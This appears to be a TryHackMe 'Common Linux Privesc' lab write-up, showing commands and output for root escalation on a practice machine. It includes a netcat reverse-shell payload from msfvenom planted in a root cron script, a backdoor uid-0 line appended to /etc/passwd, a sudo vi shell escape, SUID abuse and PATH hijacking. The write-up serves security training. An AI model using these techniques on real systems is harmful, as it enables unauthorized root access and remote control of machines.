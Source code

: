 ```yaml
---
layout: post
title: TryHackMe - Common Linux Privesc
---
```


## Enumeration

First, lets SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.

### What is the target's hostname?
```
user@**polobox**
```
### Look at the output of /etc/passwd how many "user[x]" are there on the system?
```
user3@polobox:~$ grep /etc/passwd -e 'user[0-9]' | wc -l
8
user3@polobox:~$ ls /home | wc -l
8
```
### How many available shells are there on the system?
```
user3@polobox:~$ grep /etc/shells -e bin | wc -l
4
```
### What is the name of the bash script that is set to run every 5 minutes by cron?
```
user3@polobox:~$ cat /etc/crontab
[...]
# m h dom mon dow user	command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
### What critical file has had its permissions changed to allow some users to write to it?

/etc/passwd has 664 instead of 644 permissions, but since the group is root this is not that big of a deal.
```
user3@polobox:~$ ls -l /etc/passwd
-rw-rw-r-- 1 root root 2694 Mar  6  2020 /etc/passwd
```

## Abusing SUID/GUID Files

The first step in Linux privilege escalation exploitation is to check  for files with  the SUID/GUID bit set. This means that the file or files can be run with  the permissions of the file(s) owner/group. In this case, as the  super-user. We can leverage this to get a shell with these privileges!

###  What is the path of the file in user3's directory that stands out to you?
```
user3@polobox:~$ find ~ -perm -u=s -type f 2>/dev/null
/home/user3/shell
```
### We know that "shell" is an SUID bit file, therefore running it will run the script as a root user! Lets run it!

Running the script gives us a root shell.

## Exploiting Writeable /etc/passwd

Exit out of root shell and `su` to `user7:password`.

### What direction privilege escalation is this attack?

Exiting out of a root shell and moving horizontally could be considered a vertical privilege deescalation.

### Create a compliant password hash to add with: "openssl passwd -1 -salt [salt] [password]". What is the hash created by using this command with the salt, "new" and the password "123"?

```
user7@polobox:/home/user3$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

### What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

### Add that entry to the end of the /etc/passwd file, and log in as root user `new:123`.

```
user7@polobox:/home/user3$ echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
user7@polobox:/home/user3$ su new
Password: 
Welcome to Linux Lite 4.4
 
You are running in superuser mode, be very careful.
 
Monday 12 October 2020, 16:45:07
Memory Usage: 335/1991MB (16.83%)
Disk Usage: 6/217GB (3%)
 
root@polobox:/home/user3# 
```

## Escaping Vi Editor

Switch to `user8:password`.

### Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?
```
user8@polobox:~$ sudo -l
[...]
User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
user8@polobox:~$ sudo vi # then type :!sh in vi

# 
```

## Exploiting Crontab
Switch to `user4:password`.

### What is the flag to specify a payload in msfvenom?
`-p`

### Make msfvenom payload
```
root@kali:~/Security/TryHackMe/commonlinuxprivesc# msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 93 bytes
mkfifo /tmp/zgeimi; nc LOCALIP 8888 0</tmp/zgeimi | /bin/sh >/tmp/zgeimi 2>&1; rm /tmp/zgeimi
```
### What directory is the "autoscript.sh" under?
```
user4@polobox:~/Desktop$ grep user4 /etc/crontab
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
```
Copy the reverse shell code into the autoscript.sh file while opening a listener on the attackers side: `nc -lvp 8888`. In about 5 minutes, you'll have a root shell.

## Exploiting PATH Variable
Switch to `user5:password`.

### Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?

```
user5@polobox:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos
user5@polobox:~$ ./script
Desktop  Documents  Downloads  Music  Pictures	Public	script	Templates  Videos
```
`script` seems to be executing the `ls` command which we could commandeer.

```
user5@polobox:/tmp$ echo "/bin/bash" > ls
user5@polobox:/tmp$ chmod +x ls
user5@polobox:/tmp$ export PATH=/tmp:$PATH
user5@polobox:/tmp$ cd ~
user5@polobox:~$ ./script
[...]
root@polobox:~# # set PATH back to normal
root@polobox:~# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
root@polobox:~#
```

